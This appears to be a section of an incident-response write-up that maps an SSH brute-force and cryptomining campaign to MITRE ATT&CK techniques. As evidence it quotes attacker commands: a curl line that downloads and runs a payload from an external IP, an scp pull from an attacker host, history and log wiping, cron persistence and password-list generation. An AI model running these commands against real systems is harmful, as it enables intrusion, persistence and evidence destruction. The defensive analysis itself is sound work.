 # MITRE ATT&CK Mapping

This section provides a structured mapping of adversarial techniques observed during the SSH brute-force campaign attributed to the Diicot threat group, based on the MITRE ATT&CK Framework. Each technique includes relevant identifiers, descriptions of how it was observed in the environment, real examples, and references to findings in `initial-threat-hunt.md`.

---

## Technique: T1110.001 — Brute Force: Password Guessing

**Description:**  
The `.bisis` binary was used to perform mass SSH brute-force login attempts targeting internal and external systems. Over 180,000 connection requests were observed originating from compromised VMs.

**Example Observed:**
```bash
/var/tmp/.update-logs/./.bisis ssh -o /var/tmp/.update-logs/data.json --userauth none --timeout 8
```

**Reference:** See Finding #3 in `initial-threat-hunt.md`

---

## Technique: T1059.004 — Command and Scripting Interpreter: Unix Shell

**Description:**  
Numerous bash-based command sequences were observed launching malicious scripts, setting permissions, and initiating persistence routines across compromised devices.

**Example Observed:**
```bash
bash -c "cd /var/tmp/.update-logs ; chmod +x ./.bisis ; ulimit -n 999999 ; cat iplist | ./bisis ssh ..."
```

**Reference:** See Finding #5 in `initial-threat-hunt.md`

---

## Technique: T1036 — Masquerading

**Description:**  
Several malicious binaries were named to resemble legitimate system components or used non-descriptive filenames like `Update`, `History`, `x`, and `cache`, to evade detection and appear benign.

**Example Observed:**
```plaintext
/tmp/cache
/var/tmp/.update-logs/Update
/var/tmp/.update-logs/History
```

**Reference:** See Finding #6 in `initial-threat-hunt.md`

---

## Technique: T1070.004 — Indicator Removal on Host: File Deletion

**Description:**  
Command sequences included steps to clear shell history and delete audit logs in order to erase evidence of compromise and maintain stealth.

**Example Observed:**
```bash
history -c ; rm -rf .bash_history ~/.bash_history ; rm -rf /tmp/cache
```

**Reference:** See Finding #8 in `initial-threat-hunt.md`

---

## Technique: T1021.004 — Remote Services: SSH

**Description:**  
SSH was used extensively for both outbound brute-force attacks and inbound command-and-control connections from known malicious IPs. Several successful connections were made to remote targets.

**Example Observed:**
```plaintext
Inbound and outbound SSH connections tied to `.bisis` brute-force operations and control channels
```

**Reference:** See Findings #3 and #9 in `initial-threat-hunt.md`

---

## Technique: T1564.001 — Hidden Files and Directories

**Description:**  
Malware components were stored and executed from hidden paths such as `/var/tmp/.update-logs`, `/dev/shm/.x`, and used dot-prefixed file names to conceal payloads.

**Example Observed:**
```bash
cd /var/tmp/.update-logs ; ./cache ; ./x ; ./.bisis
```

**Reference:** See Finding #7 in `initial-threat-hunt.md`

---

## Technique: T1078 — Valid Accounts

**Description:**  
Although direct credential theft was not confirmed, multiple internal devices accepted inbound SSH connections, suggesting reuse of compromised credentials across systems.

**Example Observed:**
```plaintext
Inbound SSH connection to jr-linux-vm-test from known compromised IP
```

**Reference:** See Finding #10 in `initial-threat-hunt.md`

---

## Technique: T1053.003 — Scheduled Task/Job: Cron

**Description:**  
Persistence was established using cron jobs that repeatedly executed the `Update` and `.b` files, enabling malware to reinitialize after reboot or scheduled intervals.

**Example Observed:**
```bash
cron ran: /var/tmp/.update-logs/.b ; bash /var/tmp/.update-logs/Update
```

**Reference:** See Finding #11 in `initial-threat-hunt.md`

---

## Technique: T1204.002 — User Execution: Malicious File

**Description:**  
Malicious binaries such as `UpzBUBnv` and `VwIEbFMroMSrleiJ` were executed manually or as part of a dropper chain, often disguised as normal system files.

**Example Observed:**
```plaintext
./UpzBUBnv
/tmp/VwIEbFMroMSrleiJ
```

**Reference:** See Finding #4 in `initial-threat-hunt.md`

---

## Technique: T1496 — Resource Hijacking

**Description:**  
Cryptomining components such as `kuak`, `diicot`, and `cache` consumed system resources to mine cryptocurrency. Execution was often in the background via disowned processes.

**Example Observed:**
```bash
/var/tmp/Documents/.diicot > /dev/null 2>&1 & disown
./cache >/dev/null 2>&1 & disown
```

**Reference:** See Finding #9 in `initial-threat-hunt.md`

---

## Technique: T1105 — Ingress Tool Transfer

**Description:**  
Payloads such as `cache` and `balu` were transferred from external infrastructure using `curl`, `wget`, and SCP. Files were saved into temp directories and made executable.

**Example Observed:**
```bash
curl -O -s -L 85.31.47.99/.NzJjOTYwxx5/.balu ; chmod +x cache ; ./cache
scp attacker@remote:/UpzBUBnv /var/tmp/
```

**Reference:** See Finding #6 in `initial-threat-hunt.md`

---

## Technique: T1046 — Network Service Discovery

**Description:**  
The attacker-generated script performed network scanning, SSH probing, and service enumeration to identify reachable targets internally.

**Example Observed:**
```bash
.bisis ssh -o /var/tmp/.update-logs/data.json --userauth none --timeout 8
```

**Reference:** See Finding #3 in `initial-threat-hunt.md`

---

## Technique: T1003.001 — OS Credential Dumping: Local Accounts

**Description:**  
The `./retea` script generated a list of usernames and created a password dictionary using common patterns, likely to fuel internal brute-force propagation.

**Example Observed:**
```bash
for us in $(cat .usrs) ; do printf "$us 123456\n" >> pass
```

**Reference:** See Finding #12 in `initial-threat-hunt.md`

---

